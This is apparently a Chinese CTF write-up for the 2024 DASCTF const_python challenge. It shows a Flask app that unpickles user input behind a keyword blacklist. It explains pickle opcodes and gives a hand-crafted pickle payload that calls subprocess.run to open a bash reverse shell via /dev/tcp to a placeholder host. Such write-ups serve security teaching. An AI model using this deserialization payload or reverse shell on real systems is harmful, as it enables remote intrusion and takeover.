

# 2024 DASCTF const_python详解-先知社区

> **来源**: https://xz.aliyun.com/news/16301  
> **文章ID**: 16301

---

## 源码

```
import builtins
import io
import sys
import uuid
from flask import Flask, request,jsonify,session
import pickle
import base64


app = Flask(__name__)

app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "")


class User:
    def __init__(self, username, password, auth='ctfer'):
        self.username = username
        self.password = password
        self.auth = auth

password = str(uuid.uuid4()).replace("-", "")
Admin = User('admin', password,"admin")

@app.route('/')
def index():
    return "Welcome to my application"


@app.route('/login', methods=['GET', 'POST'])
def post_login():
    if request.method == 'POST':

        username = request.form['username']
        password = request.form['password']


        if username == 'admin' :
            if password == admin.password:
                session['username'] = "admin"
                return "Welcome Admin"
            else:
                return "Invalid Credentials"
        else:
            session['username'] = username


    return '''
        <form method="post">
        <!-- /src may help you>
            Username: <input type="text" name="username"><br>
            Password: <input type="password" name="password"><br>
            <input type="submit" value="Login">
        </form>
    '''


@app.route('/ppicklee', methods=['POST'])
def ppicklee():
    data = request.form['data']

    sys.modules['os'] = "not allowed"
    sys.modules['sys'] = "not allowed"
    try:

        pickle_data = base64.b64decode(data)
        for i in {"os", "system", "eval", 'setstate', "globals", 'exec', '__builtins__', 'template', 'render', '\\',
                 'compile', 'requests', 'exit',  'pickle',"class","mro","flask","sys","base","init","config","session"}:
            if i.encode() in pickle_data:
                return i+" waf !!!!!!!"

        pickle.loads(pickle_data)
        return "success pickle"
    except Exception as e:
        return "fail pickle"


@app.route('/admin', methods=['POST'])
def admin():
    username = session['username']
    if username != "admin":
        return jsonify({"message": 'You are not admin!'})
    return "Welcome Admin"


@app.route('/src')
def src():
    return  open("buu.py", "r",encoding="utf-8").read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=False, port=5000)

```

题目意思很明显，就是要我们在/ppicklee路由下面用POST方法传data参数  
黑名单：

```
{"os", "system", "eval", 'setstate', "globals", 'exec', '__builtins__', 'template', 'render', '\\',
                 'compile', 'requests', 'exit',  'pickle',"class","mro","flask","sys","base","init","config","session"}

```

过滤了很多命令执行函数，但是subprocess没有被过滤，这里可以利用  
根据

| opcode | 描述 | 具体写法 | 栈上的变化 | memo上的变化 |
| --- | --- | --- | --- | --- |
| c | 获取一个全局对象或import一个模块（注：会调用import语句，能够引入新的包） | c[module]\n[instance]\n | 获得的对象入栈 | 无 |
| o | 寻找栈中的上一个MARK，以之间的第一个数据（必须为函数）为callable，第二个到第n个数据为参数，执行该函数（或实例化一个对象） | o | 这个过程中涉及到的数据都出栈，函数的返回值（或生成的对象）入栈 | 无 |
| i | 相当于c和o的组合，先获取一个全局函数，然后寻找栈中的上一个MARK，并组合之间的数据为元组，以该元组为参数执行全局函数（或实例化一个对象） | i[module]\n[callable]\n | 这个过程中涉及到的数据都出栈，函数返回值（或生成的对象）入栈 | 无 |
| N | 实例化一个None | N | 获得的对象入栈 | 无 |
| S | 实例化一个字符串对象 | S'xxx'\n（也可以使用双引号、\'等python字符串形式） | 获得的对象入栈 | 无 |
| V | 实例化一个UNICODE字符串对象 | Vxxx\n | 获得的对象入栈 | 无 |
| I | 实例化一个int对象 | Ixxx\n | 获得的对象入栈 | 无 |
| F | 实例化一个float对象 | Fx.x\n | 获得的对象入栈 | 无 |
| R | 选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数 | R | 函数和参数出栈，函数的返回值入栈 | 无 |
| . | 程序结束，栈顶的一个元素作为pickle.loads()的返回值 | . | 无 | 无 |
| ( | 向栈中压入一个MARK标记 | ( | MARK标记入栈 | 无 |
| t | 寻找栈中的上一个MARK，并组合之间的数据为元组 | t | MARK标记以及被组合的数据出栈，获得的对象入栈 | 无 |
| ) | 向栈中直接压入一个空元组 | ) | 空元组入栈 | 无 |
| l | 寻找栈中的上一个MARK，并组合之间的数据为列表 | l | MARK标记以及被组合的数据出栈，获得的对象入栈 | 无 |
| ] | 向栈中直接压入一个空列表 | ] | 空列表入栈 | 无 |
| d | 寻找栈中的上一个MARK，并组合之间的数据为字典（数据必须有偶数个，即呈key-value对） | d | MARK标记以及被组合的数据出栈，获得的对象入栈 | 无 |
| } | 向栈中直接压入一个空字典 | } | 空字典入栈 | 无 |
| p | 将栈顶对象储存至memo\_n | pn\n | 无 | 对象被储存 |
| g | 将memo\_n的对象压栈 | gn\n | 对象被压栈 | 无 |
| 0 | 丢弃栈顶对象 | 0 | 栈顶对象被丢弃 | 无 |
| b | 使用栈中的第一个元素（储存多个属性名: 属性值的字典）对第二个元素（对象实例）进行属性设置 | b | 栈上第一个元素出栈 | 无 |
| s | 将栈的第一个和第二个对象作为key-value对，添加或更新到栈的第三个对象（必须为列表或字典，列表以数字作为key）中 | s | 第一、二个元素出栈，第三个元素（列表或字典）添加新值或被更新 | 无 |
| u | 寻找栈中的上一个MARK，组合之间的数据（数据必须有偶数个，即呈key-value对）并全部添加或更新到该MARK之前的一个元素（必须为字典）中 | u | MARK标记以及被组合的数据出栈，字典被更新 | 无 |
| a | 将栈的第一个元素append到第二个元素(列表)中 | a | 栈顶元素出栈，第二个元素（列表）被更新 | 无 |
| e | 寻找栈中的上一个MARK，组合之间的数据并extends到该MARK之前的一个元素（必须为列表）中 | e |  |

## payload

```
opcode = b'''csubprocess
    run
    p0
    ((lp1
    Vbash
    p2
    aV-c
    p3
    aVbash -i >& /dev/tcp/ip/port 0>&1
    p4
    atp5
    Rp6.
    '''

```

## payload解释

```
csubprocess
    run
    c 表示加载一个模块；这里是指加载 subprocess 模块。
    run 是接下来要从 subprocess 模块中获取的对象名，即函数 run。

```

```
p0
p 是指将最近恢复的对象存入给定的协议编号的位置；这里是位置 0。

```

```
((lp1

    ( 开始一个元组构建。
    l 表示列表对象的结束并返回到之前的状态（在这里表示开始一个新的列表）。
    p1 将刚刚创建的列表存储在位置 1。

```

```
Vbash
p2

    V 用于加载一个 Unicode 字符串；这里是字符串 'bash'。
    p2 将字符串 'bash' 存储在位置 2。

```

```
a
a 是追加指令，它会把栈顶的对象添加到下面的对象（通常是一个列表或元组）。这里的 a 会将 'bash' 添加到由 l 创建的空列表中。

```

```
V-c
p3
V 再次用于加载一个 Unicode 字符串，这里是 '-c'。
p3 将字符串 '-c' 存储在位置 3

```

```
a
另一个 a 指令，这次是将 '-c' 添加到列表中。

```

```
Vbash -i >& /dev/tcp/IP/port 0>&1
p4

    V 加载一个更长的 Unicode 字符串，该字符串包含实际的 bash 命令。
    p4 将这个命令字符串存储在位置 4。

```

```
a
这个 a 指令将上述完整的命令字符串添加到列表中。

```

```
tp5
t 结束元组构建，并将元组作为单个对象压入堆栈。
p5 将这个元组存储在位置 5

```

```
Rp6.
R 调用最近的对象（这里是 subprocess.run），使用当前堆栈顶部的对象作为参数。
p6 将结果存储在位置 6。
. 表示序列化的结束

```

综上所述，这段代码的作用是通过 subprocess.run() 函数执行一个 bash 命令，最后将opcode进行base64编码即可


